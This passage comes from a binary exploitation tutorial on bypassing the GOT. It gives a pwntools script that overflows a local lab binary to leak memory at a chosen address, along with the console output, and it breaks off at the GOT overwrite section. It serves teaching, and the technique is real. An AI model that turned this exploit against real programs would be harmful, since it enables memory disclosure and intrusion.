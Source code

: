 Testing it out:

```
ubuntu@ubuntu-xenial:/vagrant/lessons/10_bypass_got/scripts$ python 1_arbitrary_read.py
[+] Starting local process '../build/1_records': Done
This is a Jukebox
Now Playing: Simple Minds (Breakfast)
Now Playing: AAAAAAAAAAAAAAAAAAAAAAAA\x10\x86\x0�so�.�\xff (This is a Jukebox)
$
```

See the "(This is a Jukebox)"? That means it worked. Now, what we are most interested in are mostly pointers. So let's make a small addition that would parse the leak and transform it into a nice number for us.

```
#!/usr/bin/python

from pwn import *

def main():
    p = process("../build/1_records")

    # Craft first stage (arbitrary read)
    leak_address = 0x8048610    # Address of "This is a Jukebox"
    stage_1 = "A"*24 + p32(leak_address)
    p.recvrepeat(0.2)

    # Send the first stage
    p.send(stage_1)

    # Parse the response
    data = p.recvrepeat(0.2)
    leak = data[data.find("(")+1:data.rfind(")")]
    log.info("Got leaked data: %s" % leak)

    p.interactive()

if __name__ == "__main__":
    main()
```

Running it:

```
ubuntu@ubuntu-xenial:/vagrant/lessons/10_bypass_got/scripts$ python 2_arbitrary_read_controlled.py
[+] Starting local process '../build/1_records': Done
[*] Got leaked data: This is a Jukebox
[*] Switching to interactive mode
$
```

Awesome, now we can begin thinking about our exploit.

### GOT Overwrite Strategy
